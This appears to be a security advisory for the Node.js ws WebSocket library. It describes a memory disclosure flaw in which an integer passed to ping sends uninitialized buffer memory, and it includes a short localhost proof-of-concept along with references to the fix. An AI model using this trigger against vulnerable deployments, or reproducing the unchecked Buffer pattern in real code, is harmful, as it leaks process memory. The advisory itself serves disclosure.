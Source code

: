 ## Overview
A client side memory disclosure vulnerability exists in ping functionality of the ws service. When a client sends a ping request and provides an integer value as ping data, it will result in leaking an uninitialized memory buffer. 

## Details
There were no checks performed on the type of data to be sent. With buffers in node when you allocate it with a number instead of a string it will allocate the amount of bytes.

**Example:**
```
var x = new Buffer(100);
// vs
var x = new Buffer('100');
```

This would allocate 100 bytes of memory in the first example and just 3 bytes with 100 as value in the second example. 

```
var ws = require('ws')

var server = new ws.Server({ port: 9000 })
var client = new ws('ws://localhost:9000')

client.on('open', function () {
  console.log('open')
  client.ping(50) // this makes the client allocate an uninitialized buffer of 50 bytes and send it to the server

  client.on('pong', function (data) {
    console.log('got pong')
    console.log(data)
  })
})
```

## References
- https://github.com/websockets/ws/releases/tag/1.0.1
- https://github.com/nodejs/node-v0.x-archive/issues/4525
